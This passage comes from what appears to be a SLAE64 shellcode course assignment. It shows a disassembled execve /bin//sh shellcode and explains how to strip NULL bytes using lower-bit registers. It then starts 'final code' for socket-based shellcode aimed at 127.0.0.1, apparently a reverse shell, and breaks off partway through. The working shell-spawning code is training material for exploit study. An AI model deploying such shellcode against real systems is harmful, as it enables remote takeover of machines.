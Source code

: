 ```term
  6a:   48 31 c0                xor    rax,rax
  6d:   50                      push   rax
  6e:   48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f
  75:   2f 73 68 
  78:   53                      push   rbx
  79:   48 89 e7                mov    rdi,rsp
  7c:   50                      push   rax
  7d:   48 89 e2                mov    rdx,rsp
  80:   57                      push   rdi
  81:   48 89 e6                mov    rsi,rsp
  84:   48 83 c0 3b             add    rax,0x3b
  88:   0f 05                   syscall 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B/og$
```

Similarly like in the prior Assignment, most of the NULL opcodes arise from MOV operations, moving small values into rather big registers (I.E performing a MOV operation against 
the value "1" into RSI). In order to prevent such values, Lower bit Registers can be used. For instance, instead of using RAX when incrementing the register, AL could be used 
instead, which performs the same operation, with no NULLs whatsoever. In addition, a similar operation could be incrementing the register by one.

Final code:

```term
global _start


_start:

	; sock = socket(AF_INET, SOCK_STREAM, 0)
	; AF_INET = 2
	; SOCK_STREAM = 1
	; syscall number 41


        xor rax, rax
        xor rdi, rdi
        xor rsi, rsi
        xor rdx, rdx

	mov al, 41

        inc rdi
        inc rdi

        inc rsi

	syscall

	; copy socket descriptor to rdi for future use

	mov rdi, rax


	; server.sin_family = AF_INET
	; server.sin_port = htons(PORT)
	; server.sin_addr.s_addr = inet_addr("127.0.0.1")
	; bzero(&server.sin_zero, 8)

	xor rdx, rdx
        xor rbp, rbp

        push word 0x2
```